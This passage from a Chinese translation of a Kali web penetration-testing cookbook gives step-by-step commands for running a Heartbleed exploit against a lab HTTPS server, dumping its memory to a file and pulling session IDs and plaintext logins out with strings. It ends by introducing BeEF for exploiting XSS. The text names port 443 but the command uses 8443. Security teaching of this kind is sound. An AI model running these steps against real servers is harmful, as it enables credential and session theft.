     ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/7-2-1.jpg)
    
2.  现在，让我们开始利用漏洞。手心，我们访问包含可执行利用的文件夹：

    ```
    cd heartbleed
    ```
    
3.  之后我们检查程序的选项，像这样：

    ```
    ./heartbleed --help
    ```
    
    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/7-2-2.jpg)
    
4.  我们要尝试利用`192.168.56.103 `的 443 端口，获得最大的泄露并保存输出到文本文件`hb_test.txt`。

    ```
    ./heartbleed -s 192.168.56.103 -p 8443 -f hb_test.txt -t 1
    ```
    
    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/7-2-3.jpg)
    
5.  现在，如果我们检查`hb_test.txt`的内容：

    ```
    cat hb_test.txt
    ```
    
    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/7-2-4.jpg)
    
    我们的利用从 HTTPS 服务器中提取了信息，从这里我们可以看到会话 OD 甚至还有完整的登录请求，包括纯文本用户名和密码。
    
6.  如果我们想要跳过所有的二进制数据，只查看文件中的可读文本，使用`strings`命令：

    ```
    strings hb_test.txt
    ```
    
    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/7-2-5.jpg)
    
### 工作原理

我们在第四章中提到过，Heartbleed 漏洞允许攻击者从 OpenSSL 服务器内存中以纯文本读取信息，这意味着我们不需要解密甚至是解释任何客户端和服务端之间的通信，我们只需简单地向服务器请求内存中的东西，它会回应未加密的信息。

这个秘籍中，我们使用了可公共访问的利用来执行攻击，并获取到至少一个有效的会话 ID。有的时候还可能在 Heartbleed 的转储中找到密码或其它敏感信息。

最后，`strings`命令只展示文件中的字符串，跳过所有特殊字符，使其更加易读。

## 7.3 使用 BeEF 利用 XSS

BeEF，即浏览器利用框架，是个专注于客户端攻击向量的框架，特别是 Web 浏览器的攻击。

这个秘籍中，我们会利用 XSS 漏洞并使用 BeEF 来控制客户端浏览器。
